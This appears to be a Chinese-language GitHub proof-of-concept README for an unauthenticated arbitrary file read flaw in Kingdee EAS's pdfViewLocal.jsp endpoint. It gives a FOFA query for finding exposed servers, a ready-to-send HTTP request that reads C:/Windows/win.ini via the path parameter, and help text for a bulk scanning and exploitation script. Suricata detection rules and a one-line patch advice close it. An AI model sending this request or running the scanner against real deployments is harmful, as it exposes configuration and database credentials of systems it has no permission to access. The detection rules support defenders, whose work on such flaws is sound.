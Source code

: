 ### 产品简介  
金蝶EAS 为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力。  

### 漏洞概述  
金蝶EAS pdfviewlocal接口处存在任意文件读取漏洞，未经身份验证的攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  

### 指纹识别  
fofa: app="Kingdee-EAS"  

### 漏洞利用  
```
poc:
GET /plt_document/fragments/content/pdfViewLocal.jsp?path=C:/Windows/win.ini HTTP/1.1
Host: your_ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E8%9D%B6/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability/1.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E9%87%91%E8%9D%B6/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability/2.png)  

### 测试和利用脚本  
```
python3 Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py -h                     
usage: Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Kingdee EAS pdfviewlocal arbitrary file read vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python
                        Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python
                        Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Kingdee EAS pdfviewlocal arbitrary file read vulnerability."; flow:established,to_server; flowbits:set,Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability;  content:"get";http_method;nocase; content:"/plt_document/fragments/content/pdfViewLocal.jsp";http_uri;fast_pattern;nocase; content:"path=";http_uri;nocase;distance:0; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E8%9D%B6/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability; classtype:web-attck; metadata:created_at 2024-1-12,updated_at 2024-1-12,creater:YUUKI4O4; sid:10; rev:1;)
alert http any any -> any any (msg:"Kingdee EAS pdfviewlocal arbitrary file read vulnerability success."; flow:established,from_server; flowbits:isset,Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability; content:"200";http_stat_code; content:"Content-Disposition: inline\; filename=";nocase;http_header; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E9%87%91%E8%9D%B6/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability; classtype:web-attck; metadata:created_at 2024-1-12,updated_at 2024-1-12,creater:YUUKI4O4; sid:11; rev:1;)
```
